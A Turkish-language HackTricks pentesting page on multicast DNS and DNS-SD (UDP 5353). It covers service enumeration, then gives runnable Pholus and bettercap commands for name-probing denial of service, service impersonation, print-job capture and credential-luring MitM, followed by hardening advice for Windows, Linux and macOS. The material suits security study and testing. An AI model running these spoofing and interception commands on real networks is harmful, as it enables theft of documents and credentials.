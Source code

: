# 5353/UDP Multicast DNS (mDNS) ve DNS-SD

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

Multicast DNS (mDNS), tekil bir DNS sunucusu olmadan yerel bir bağlantı içinde DNS benzeri ad çözümü ve hizmet keşfi sağlar. UDP/5353 ve çoklu adresler 224.0.0.251 (IPv4) ve FF02::FB (IPv6) kullanır. DNS Hizmet Keşfi (DNS-SD, genellikle mDNS ile birlikte kullanılır) PTR, SRV ve TXT kayıtları aracılığıyla hizmetleri listelemek ve tanımlamak için standart bir yol sağlar.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Anahtar protokol detayları, saldırılar sırasında sıkça kullanacağınız:
- .local alanındaki isimler mDNS aracılığıyla çözülür.
- QU (Query Unicast) biti, çoklu yayın soruları için bile tekil yanıtlar talep edebilir.
- Uygulamalar, yerel bağlantıdan kaynaklanmayan paketleri göz ardı etmelidir; bazı yığınlar hala bunları kabul eder.
- Sondalama/duyurma, benzersiz ana bilgisayar/hizmet isimlerini zorlar; burada müdahale etmek DoS/"isim işgali" koşulları yaratır.

## DNS-SD hizmet modeli

Hizmetler, .local altında _<service>._tcp veya _<service>._udp olarak tanımlanır, örneğin _ipp._tcp.local (yazıcılar), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge) vb. _services._dns-sd._udp.local ile türleri keşfedin, ardından keşfedilen örnekleri SRV/TXT/A/AAAA'ya çözün.

## Ağ Keşfi ve Sayımı

- nmap hedef taraması (bir ana bilgisayarda doğrudan mDNS):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap yayın keşfi (segmenti dinleyin ve tüm DNS-SD türlerini/örneklerini sayın):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# Hizmet türlerini listele
avahi-browse -bt _services._dns-sd._udp
# Tüm hizmetleri tarayın ve ana bilgisayar/port'a çözün
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# Tüm HTTP hizmetlerini tarayın
dns-sd -B _http._tcp
# Hizmet türlerini sayın
dns-sd -B _services._dns-sd._udp
# Belirli bir örneği SRV/TXT'ye çözün
dns-sd -L "My Printer" _ipp._tcp local
```
- tshark ile paket yakalama:
```bash
# Canlı yakalama
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# Sadece DNS-SD hizmet listesi sorgularını
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

İpucu: Bazı tarayıcılar/WebRTC, yerel IP'leri maskelemek için geçici mDNS ana bilgisayar adları kullanır. Eğer ağda rastgele-UUID.local adayları görüyorsanız, bunları mDNS ile çözerek yerel IP'lere geçiş yapın.

## Saldırılar

### mDNS isim sondalama müdahalesi (DoS / isim işgali)

Sondalama aşamasında, bir ana bilgisayar isim benzersizliğini kontrol eder. Sahte çelişkilerle yanıt vermek, yeni isimler seçmesini veya başarısız olmasını zorlar. Bu, hizmet kaydını ve keşfini geciktirebilir veya engelleyebilir.

Pholus ile örnek:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### Servis sahteciliği ve taklit (MitM)

Rekabetçi DNS-SD hizmetlerini (yazıcılar, AirPlay, HTTP, dosya paylaşımları) taklit ederek istemcileri sizinle bağlantı kurmaya zorlayın. Bu özellikle şunlar için faydalıdır:
- _ipp._tcp veya _printer._tcp'yi taklit ederek belgeleri yakalamak.
- İstemcileri token/cookie toplamak veya yükler iletmek için HTTP/HTTPS hizmetlerine çekmek.
- Windows istemcileri taklit edilen hizmetlere kimlik doğrulaması yaparken NTLM iletim teknikleri ile birleştirmek.

bettercap’in zerogod modülü (mDNS/DNS-SD sahtecisi/taklitçisi) ile:
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Ayrıca genel LLMNR/NBNS/mDNS/WPAD sahtecilik ve kimlik bilgisi yakalama/iletim iş akışlarına bakın:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Son uygulama sorunları hakkında notlar (engellemeler/süreklilik için yararlıdır)

- Avahi erişilebilirlik-iddası ve D-Bus çökme hataları (2023), avahi-daemon'u Linux dağıtımlarında sonlandırabilir (örneğin, CVE-2023-38469..38473, CVE-2023-1981), hedef ana bilgisayarlarda hizmet keşfini kesintiye uğratır.
- Cisco IOS XE Kablosuz LAN Kontrolörü mDNS geçidi DoS (2024, CVE-2024-20303), komşu saldırganların yüksek CPU kullanımı sağlamasına ve AP'leri koparmasına olanak tanır. VLAN'lar arasında bir mDNS geçidi ile karşılaşırsanız, hatalı veya yüksek hızlı mDNS altında kararlılığına dikkat edin.

## Savunma dikkate alımları ve OPSEC

- Segment sınırları: 224.0.0.251/FF02::FB'yi güvenlik bölgeleri arasında yönlendirmeyin, mDNS geçidi açıkça gerekli olmadıkça. Keşfi köprülemek zorundaysanız, izin listelerini ve hız sınırlamalarını tercih edin.
- Windows uç noktaları/sunucular:
- mDNS üzerinden ad çözümlemesini zorla devre dışı bırakmak için kayıt defteri değerini ayarlayın ve yeniden başlatın:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- Yönetilen ortamlarda, yerleşik “mDNS (UDP-In)” Windows Defender Güvenlik Duvarı kuralını devre dışı bırakın (en azından Alan profilinde) böylece ev/gezinme işlevselliğini korurken gelen mDNS işlemesini engelleyin.
- Daha yeni Windows 11 sürümlerinde/GPO şablonlarında, “Bilgisayar Yapılandırması > Yönetim Şablonları > Ağ > DNS İstemcisi > çoklu yayın DNS (mDNS) protokolünü yapılandır” politikasını kullanın ve Devre Dışı olarak ayarlayın.
- Linux (Avahi):
- Gerekmediğinde yayınlamayı kısıtlayın: `disable-publishing=yes` ayarlayın ve `/etc/avahi/avahi-daemon.conf` dosyasında `allow-interfaces=` / `deny-interfaces=` ile arayüzleri kısıtlayın.
- `check-response-ttl=yes` kullanmayı düşünün ve kesinlikle gerekli olmadıkça `enable-reflector=yes` kullanmaktan kaçının; yansıtma sırasında `reflect-filters=` izin listelerini tercih edin.
- macOS: Belirli alt ağlar için Bonjour keşfi gerekmediğinde, ana bilgisayar/ağ güvenlik duvarlarında gelen mDNS'yi kısıtlayın.
- İzleme: `_services._dns-sd._udp.local` sorgularında olağandışı artışlar veya kritik hizmetlerin SRV/TXT'lerinde ani değişiklikler için uyarı verin; bunlar sahtecilik veya hizmet taklidi göstergeleridir.

## Araçlar hızlı referans

- nmap NSE: `dns-service-discovery` ve `broadcast-dns-service-discovery`.
- Pholus: aktif tarama, ters mDNS taramaları, DoS ve sahtecilik yardımcıları.
```bash
# Pasif dinleme (zaman aşımı saniyeleri)
sudo python3 pholus3.py <iface> -stimeout 60
# Hizmet türlerini listele
sudo python3 pholus3.py <iface> -sscan
# Genel mDNS istekleri gönder
sudo python3 pholus3.py <iface> --request
# Bir alt ağın ters mDNS taraması
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: mDNS/DNS-SD hizmetlerini keşfetme, kaydetme, duyurma ve taklit etme (yukarıdaki örneklere bakın).

## Sahtecilik/MitM

Bu hizmet üzerinden gerçekleştirebileceğiniz en ilginç saldırı, istemci ile gerçek sunucu arasındaki iletişimde bir MitM gerçekleştirmektir. Hassas dosyaları (yazıcı ile iletişimi MitM) veya hatta kimlik bilgilerini (Windows kimlik doğrulaması) elde etme şansınız olabilir.\
Daha fazla bilgi için kontrol edin:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## Referanslar

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD keşfi, sahtecilik, taklit)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
